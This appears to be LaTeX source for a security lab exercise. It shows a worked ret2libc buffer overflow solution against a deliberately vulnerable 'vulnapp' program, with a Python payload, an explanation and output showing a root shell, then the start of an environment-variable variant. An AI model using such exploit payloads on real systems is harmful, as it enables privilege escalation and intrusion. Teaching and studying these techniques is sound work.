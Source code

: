 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{solution}
\begin{lstlisting}[language=python]
  from struct import pack; print("A"*24 + pack("I", 0xb7e30ea0) + pack("I", 0xb7e24a60) + pack("I", 0x80499a0))
\end{lstlisting}
The exploit fills firstly the stack with 24 bytes with value \texttt{A}, inclusive the saved \texttt{ebp} address. Then it overwrites the 
return address with the address of the \texttt{system} function. This will make the program to call the \texttt{system} function when the 
\texttt{cpybuf} function completes its execution. Next it writes the address of \texttt{exit} function as the return address from \texttt{system} 
function. This operation is typically accomplished automatically by the \texttt{call} instruction. The address of input buffer is placed at the end in order to be interpreted as the argument of \texttt{system} function.

\newpage

6. Running the exploit with payload \texttt{/bin/bash -c id}:

\begin{lstlisting}[language=bash]
  % ./vulnapp "`python2.7 -c 'from struct import pack; print("A"*24 + pack("I", 0xb7e30ea0) + pack("I", 0xb7e24a60) + pack("I", 0x80499a0))'`"
  Type some text:
  /bin/bash -c id

  You typed: [/bin/bash -c id]
  You provided:[AAAAAAAAAAAAAAAAAAAAAAAA���`Jⷠ�]
  uid=0(root) gid=100(users) groups=100(users),7(lp),10(wheel),19(log),91(video), 92(audio),93(optical),95(storage),96(scanner),98(power),150(wireshark)
\end{lstlisting}

\end{solution}\fi

\section*{Attack 2: Execute the shell from environmental variables}

Not every program might allow you to place a string in memory through an extra
input as vulnapp. So, this attack is similar to the previous one with the
difference that you will need to find the path to the shell i.e., "/bin/sh" in
the environmental variables.  These variables are automatically loaded in the
program stack upon execution. Therefore you are not dependent on the additional
input.

For this attack, you do not need to supply any information when the program asks you
to type some text as it will not be needed. In difference to the previous attack,
you just need to find the path to the shell program already included in the program
space after loading the vulnapp program.
\end{document}

